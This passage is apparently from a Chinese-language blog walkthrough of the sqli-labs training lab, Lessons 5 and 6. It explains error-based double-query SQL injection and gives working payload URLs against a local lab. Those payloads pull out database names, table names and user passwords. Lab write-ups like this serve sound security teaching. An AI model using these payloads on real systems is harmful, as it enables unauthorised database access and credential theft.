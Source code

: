 然后接下来：   `SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less5_11.png" />

SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了。

 如果我们把这条语句后面加上from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的。比如一个管理表里有5个管理员。这个就会返回五条记录，这里users表里有13个用户，所以返回了13条 

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less5_12.png" />

如果是从information_schema.schemata里，这个表里包含了mysql的所有数据库名。这里本机有三个数据库。所以会返回三个结果 

 `SELECT CONCAT((SELECT database()), FLOOR(RAND()*2)) from information_schema.schemata ;`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less5_13.png" />



然后可以使用句子：

```sql
select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;
```

​        <img src="{{ site.url }}/assets//blog_images/sqli-labs_less5_14.png" />

查询结果会以报错的形式展现出来：（固定公式）

less5中： `http://127.0.0.1/Less-5/?id=-1' union select count(*),2,concat('*',(select database()),'*',floor(rand()*2))as a from information_schema.tables group by a--+`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less5_15.png" />

获取到数据库名后再用同样的方法获取表名： 

`http://localhost/sqli-labs-master/Less-5/?id=-1' union select count(*),2,concat('*',(select group_concat(table_name) from information_schema.tables where table_schema='security'),'*',floor(rand()*2))as a from information_schema.tables group by a--+`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less5_16.png" />

（其实我还是比较推荐使用sqlmap，事情少。。。）



**Less-6双注入GET双引号字符型注入** 

还是使用和less5一样的方法：只是用的是   “   

`http://127.0.0.1/Less-6/?id=-1" union select count(*),2,concat('*',(select concat_ws(char(32,44,32),id,username,password) from users limit 0,1),'*',floor(rand()*2))as a from information_schema.tables group by a--+`  



<img src="{{ site.url }}/assets//blog_images/sqli-labs_less6_01.png" />
